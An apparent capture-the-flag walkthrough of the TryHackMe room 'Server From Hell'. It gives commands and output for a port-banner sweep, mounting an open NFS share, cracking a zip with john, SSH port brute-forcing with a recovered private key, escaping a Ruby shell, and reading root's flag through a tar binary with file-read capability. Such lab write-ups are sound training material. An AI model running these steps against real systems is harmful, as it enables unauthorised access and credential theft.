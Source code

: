 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets
![](https://tryhackme-images.s3.amazonaws.com/room-icons/15aae7a0b9c12597a7a7cd9f7db85c48.jpeg)
## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {1..100}
do
    nc 10.10.10.10 -p $port
done
```

Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```

### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```

### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```

### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```

### Nice, we have the flag and an id_rsa key
##### The problem now is that we don't know which port ssh is running on, lets check the hint.
```
output:
2500-4500
```

## [Task 2] User.txt
#### this is probably refering the to range of ports that ssh is running on
#### lets modify our script
```bash
#!/bin/bash
for port in {2500..4500}
do
    ssh -i id_rsa hades@10.10.10.10 -p $port
done
```

### Now we just wait until we get a login prompt
#### Nice, we have a shell
```
 Welcome to hell. We hope you enjoy your stay!
 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```
### We have a shell, but its an interactive ruby shell
#### A simple command will allow us to spawn a shell
```
irb(main):001:0> system("/bin/bash")
```

### And we have user.txt
```
hades@hell:~$ ls
user.txt
```

## [Task 3] Root.txt
#### Now all we have to do is escalate our privs
#### Looking at the hint, we know that "getcap" has something to do with our escalation.
We can find capabilties with the following command
```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

### Looking at the output, we know that /bin/tar has read capabilites
##### It took me an embarrassingly long amount of time to realize that we did not have write access to /home/hades
##### So we need to do this in /dev/shm
#### tar -cvf root.tar /root/root.txt
#### tar -xvf root.tar
```
hades@hell:/dev/shm$ tar -cvf root.tar /root/root.txt
tar: Removing leading `/' from member names
/root/root.txt
hades@hell:/dev/shm$ ls
root.tar
hades@hell:/dev/shm$ tar -xvf root.tar
root/root.txt
hades@hell:/dev/shm$ ls
root  root.tar
hades@hell:/dev/shm$ cd root
hades@hell:/dev/shm/root$ ls
root.txt
```

## And we've rooted the box, nice


